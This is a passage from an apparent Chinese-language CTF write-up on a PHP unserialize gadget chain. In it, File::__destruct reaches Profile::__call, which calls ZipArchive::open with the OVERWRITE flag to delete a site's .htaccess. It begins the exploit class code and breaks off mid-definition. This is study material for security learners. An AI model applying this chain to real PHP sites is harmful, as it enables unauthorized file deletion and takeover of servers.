```php
        if (isset($this->checker)){
            $this->checker->upload_file();
        }
    }
}
```

这里的`$checker`是我们可控的。

```php
class Profile{

    public $username;
    public $password;
    public $admin;

    public function is_admin(){
        $this->username = $_SESSION['username'];
        $this->password = $_SESSION['password'];
        $secret = "********";
        if ($this->username === "admin" && $this->password != "admin"){
            if ($_COOKIE['user'] === md5($secret.$this->username.$this->password)){
                return 1;
            }
        }
        return 0;

    }
    function __call($name, $arguments)
    {
        $this->admin->open($this->username, $this->password);
    }
}
```

当调用该类中的一个不存在的函数时，将会触发`__call()`魔术方法，可奇怪的是这个类中并没有`open()`函数，考虑到可能内置类的函数。

参考链接：[https://www.php.net/manual/tr/function.ziparchive-open.php](https://www.php.net/manual/tr/function.ziparchive-open.php)

<img src="/home/cookie/Pictures/blogs/9.png" style="zoom:50%;" />

**ZIPARCHIVE::OVERWRITE** ([integer](https://www.php.net/manual/zh/language.types.integer.php))

总是以一个新的压缩包开始，此模式下如果已经存在则会被覆盖。

所以我们可以通过设置$filename为`.htaccess`的路径，然后通过这个办法将其覆盖。

```php
<?php
class File
{
    public $filename;
    public $filepath;
    public $checker;
    function __construct()
    {
        $this->checker = new Profile();
    }
    function __destruct()
    {
        if (isset($this->checker)) {
            $this->checker->upload_file();
        }
    }
}
class Profile
```